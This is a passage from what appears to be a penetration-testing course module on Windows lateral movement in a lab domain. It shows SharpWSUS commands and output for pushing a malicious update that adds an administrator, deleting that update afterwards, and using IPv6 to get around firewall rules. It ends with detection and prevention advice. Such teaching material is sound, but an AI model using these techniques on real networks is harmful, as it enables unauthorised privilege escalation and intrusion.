\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting srv01.inlanefreight.local
TargetComputer, ComputerID, TargetID
------------------------------------
srv01.inlanefreight.local, bbc6e1ed-75ec-4eea-81cf-05da5c18e93e, 3

Update Info cannot be found.

[*] Check complete
```

The above output indicates that the computer hasn't completed the update process. You can force this process if you have access to the target computer by clicking "Check for Updates":



You successfully installed your update. If you use `SharpWSUS.exe check` again, it will show that you successfully installed the update.

You have successfully added a new member to the Administrator group of the target computer, you can now execute commands as an administrator.

```
c:\Tools> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
INLANEFREIGHT\Domain Admins
INLANEFREIGHT\Filiplain
INLANEFREIGHT\PDQ Deploy Admin
The command completed successfully
```

###### Clean up after the Patch is downloaded

To clean up everything about the malicious update running `SharpWSUS.exe delete`, specify the update id `/updateid:<Update ID>` and the target computer `/computername:<Target Computer>`.

```
c:\Tools> .\SharpWSUS.exe delete /updateid:812772ce-0d8b-414b-823b-2cbc97d76126 /computername:srv02.inlanefreight.local

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Delete Update

[*] Update declined.


[*] Update deleted.


Targeting srv02.inlanefreight.local
TargetComputer, ComputerID, TargetID
------------------------------------
srv02.inlanefreight.local, d4e385a2-01e1-444f-b856-f857b8989b43, 1
Removed Computer From Group
Remove Group

[*] Delete complete
```

#### Alternative Tools for Abusing WSUS

While SharpWSUS is a powerful tool for exploiting WSUS servers, other tools are available for similar purposes. [WSUSpendu](https://github.com/alex-dengx/WSUSpendu), a PowerShell tool, allows for the injection of malicious updates, forcing systems relying on the compromised WSUS server to execute arbitrary commands. Another option is [Thunder_Woosus](https://github.com/ThunderGunExpress/Thunder_Woosus), a C# tool designed for manipulating WSUS updates and enabling arbitrary command execution on targeted machines.

## General Considerations

### User Privileges

Administrative rights are not always necessary for lateral movement. Services such as PSRemoting, RDP, WMI, DCOM, and SSH allow non-admininstrators to execute commands. It is essential to test all your credentials against these services.

### Firewall Blocking

Firewalls and network segmentation are crucial considerations. Sometimes, you may have access to a workstation that doesn't have direct access to specific servers, requiring you to use other devics to reach your target network.

Administrators can apply various network configurations and restrictions, such as:

- Changing default ports
- Restricting access to specific workstations
- Allowing inbound access only from specific IPs or networks
- Blocking outbound internet access for specific workstations
- Monitoring network traffic

To identfiy non-default ports, use the `netstat` command. For example, running `netstat -ano` on SRV01 might yield:

```powershell
PS C:\Tools> netstat -ano
netstat -ano

Active Connections

 Proto  Local Address          Foreign Address        State           PID
 TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       1704
 TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
 TCP    0.0.0.0:23389          0.0.0.0:0              LISTENING       336
```

In this example, you can see the port `23389`. You can investigate to which service this port belongs using `tasklist`:

```powershell
PS C:\Tools> tasklist /svc /FI "PID eq 336"

Image Name                PID Services
=====================  ====== =====================
svchost.exe               336 TermService
```

Investigating further reveals that `TermService` is responsible for `Remote Desktop Services`, indicating that this port is for RDP.

### Credentials

Searching for credentials is a crucial aspect of identifying lateral movement opportunities. Successful lateral movement often relies on using and reusing credentials, public/private keys, tokens, and website logins found during enumeration.

### IPv6

IPv6 is often overlooked, but it is enabled by default on Windows. If firewalls block IPv4 connections but overlook IPv6, you can use IPv6 to bypass these restrictions.

To connect to an IPv6 network, use the IPv6 address within brackets, like this: `[dead:beef::647f:620f:3a1a:e978]`. For WinRM use the following command:

```
PS C:\Tools> Enter-PSSession -ComputerName [dead:beef::647f:620f:3a1a:e978] -Authentication Negotiate
```

If you are attempting to connect to RDP using IPv6, you can use the following address:



## Detection

### Monitoring Authentication Logs

Monitoring authentication logs involves scrutinizing login activity to identify unusual patterns. For example, logins from unexpected locations or at odd hours can indicate unauthorized access attempts. Similarly, multiple failed login attempts and account lockouts signal that an attacker is trying to brute-force passwords or use stolen credentials.

To monitor unusual login patterns, you can use Windows Event Viewer or dedicated tools to analyze authentication logs.

### Honeypots and Deception

A honeypot is an artificial environment designed to mimic real systems to observe and analyze the behavior of attackers. This approach is widely used in cybersecurity to create a deceptive trap that attacks cybercriminals. By deploying a honeypot, you can gain insights into the tactics and methods used by attackers, which helps in strengthening the overall security posture of their networks by addressing vulns identified during these interactions.

Deploying honeypots can be done using tools like [KFSensor](https://www.kfsensor.net/), [sshesame](https://github.com/jaksi/sshesame) or setting up a fake share on a Windows system.

### Network Traffic Analysis

... involves examining the flow of data across the network to identify unusual communication patterns. Attackers often engage in lateral communications between system that don't typically interact. Detecting such patterns can be a signal of lateral movement. Additionally, the use of non-standard ports or protocols can indicate attempts to bypass security measures.

Analyzing network flows requires tools like Windows Performance Monitor or third-party applications such as Wireshark or Microsoft Network monitor.

### EDR

You can use EDR solutions to monitor and analyze endpoint behavior for signs of suspicious activities, such as the execution of malicious scripts or tools like PSExec, PowerShell, or WMI. These tools can be used by attackers to move laterally within the network, so detecting their usage can indicate potential compromise. Using EDR solutions involves deploying EDR software and configuring it to monitor endpoint activities.

## Prevention

### Network Segmentation

... involves dividing the network into smaller, isolated segments to restrict the lateral movement of attackers. Each segment should have strict access controls to ensure that only authorized traffic can pass between them. This reduces the risk of a compromised system impacting other areas of the network.

You can use tools like Windows Firewall to create VLANs and subnets, configure firewall rules to control traffic between segments, and regularly review these rules for compliance.

### Least Privilege

Implementing the least privilege principle can substantially decrease the likelihood of lateral movement. This principle entails providing users and applications with only the essential persmissions required to carry out their functions. Should an attacker gain control of a user account or application, their actions are confined to the permissions allocated to that account or application, thereby restricting their capacity to move laterally within the network.

You can apply the principle of least privilege by assigning roles and permissions through AD, enforcing least privilege via GPO, and auditing user permissions to revoke unnecessary rights.

### Zero Trust Architecture

Finally, another way of protection can be Zero Trust Architecture. This is a security model where no entity is trusted by default. Every access request must be verified and authenticated, regardless of its origin, to ensure comprehensive security.

You can use Azure Active Directory Conditional Access to enforce verification for every request, apply network micro-segmentation, and continuously monitor and adjust access policies based on threat levels.